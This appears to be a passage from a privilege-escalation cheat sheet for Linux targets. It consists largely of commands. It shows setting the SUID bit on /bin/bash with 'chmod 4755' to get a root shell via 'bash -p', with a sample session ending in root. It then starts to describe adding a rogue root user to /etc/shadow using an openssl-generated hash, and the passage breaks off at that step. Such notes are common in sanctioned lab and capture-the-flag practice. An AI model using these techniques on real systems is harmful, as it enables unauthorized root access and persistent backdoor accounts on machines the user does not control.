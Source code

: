 <br />

## Execute Commands as Root Privilege

### Change Shebang in Shell Script

Add "-p" option at the first line to execute the script as root privilege.

```sh
#!/bin/bash -p
whoami
```

### Use the Set User ID (SUID)

If you can change permission of the **/bin/bash** , add **SUID** to the file.

```sh
chmod 4755 /bin/bash
```

Then you execute it as root privilege by adding "-p" option.  
You'll be able to pwn the target shell.

```sh
user@machine:~/$ /bin/bash -p
root@machine:~/$ whoami
root
```

<br />

## Update Sensitive Information

### 1. Change Password of Current User

We need to know the current user's password.

```sh
echo -n '<current-password>\n<new-password>\n<new-password>' | passwd
```

### 2. Add Another Root User to /etc/shadow

1. **Generate New Password**

    ```sh
    # -6: SHA512
    openssl passwd -6 -salt salt password
    ```

    Copy the output hash.

2. **Add New Line to /etc/shadow in Target Machine**
